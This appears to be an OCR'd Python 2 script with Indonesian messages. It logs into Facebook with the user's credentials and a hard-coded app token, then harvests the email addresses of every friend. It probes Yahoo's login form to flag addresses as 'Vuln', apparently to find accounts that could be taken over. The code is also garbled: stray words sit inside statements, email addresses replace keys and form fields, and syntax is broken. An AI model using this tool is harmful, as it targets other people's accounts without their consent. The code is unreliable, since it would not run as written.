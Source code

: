 # Author: Zen-Oh-Sama
import requests, json, os, re, sys, mechanize, urllib
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
os.system("clear")
idt = raw_input("\033[39m[\033[31m*\033[39m] Email   : ")
passw = raw_input("\033[39m[\033[31m*\033[39m] Password: ")
url = "https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + (idt) + "&locale=en_US&password=" + (passw) + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6"
data = urllib.urlopen(url)
op = json.load(data)
if 'access_token' in op:
    token = (op["access_token"])
    print ("\033[39m[\033[31m+\033[39m] Login Berhasil")
else:
    print ("\033[39m[\033[31m+\033[39m] \033[31mLogin Gagal!")
    sys.exit()
get_friends = requests.get('https://graph.facebook.com/me/friends?access_token='+token)
hasil = json.loads(get_friends.text)
print ("\033[39m[\033[31m+\033[39m] Berhasil Mendapatkan ID Teman...")
#cok = open('Mail_Yahoo.txt','w')
def defense():
    global o, h
    o = []
    h = 0
    print "\033[36m" + 55*"-"
    print "\033[36m| " + 11*" " + "\033[35mEmail" + 14*" " + "\033[36m|" + 9*" " + "\033[33mVuln" + 8*" " + "\033[36m|"
    print 55*"-"
    for i in hasil['data']:
        wrna = "\033[36m"
        wrne = "\033[39m"
        h +=1
        o.append(h)
        x = requests.get("https://graph.facebook.com/"+i['id']+"?access_token="+token)
        z = json.loads(x.text)
        try:
            kunci = re.compile(r'@.*')
            cari = kunci.search(z['bajyulagi@gmail.com']).group()
            if 'yahoo.com' in cari:nomor handphone
                br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
                br._factory.is_html = True
                br.select_form(nr=0)
                br["mrkoke79"] = z['bajyulagi@gmial.com']
                j = br.submit().read()
                Zen = re.compile(r'"messages.email.txt_INVALID_USERNAME">.*')
                try
                    cd = mrkoke79.search(j).group()
                except:
                    vuln = 6*" " + "\033[31mNot Vuln"
                    #Email Len
                    lean = 30 - (len(z['email']))
                    eml = lean * " "
                    #Name Len
                    lone = 24 - (len(vuln))
                    namel = lone * " "
                    print "\033[36m| " + wrna + z['email'] + eml + "\033[36m| " + wrne + vuln + namel + " \033[36m|"
                    continue
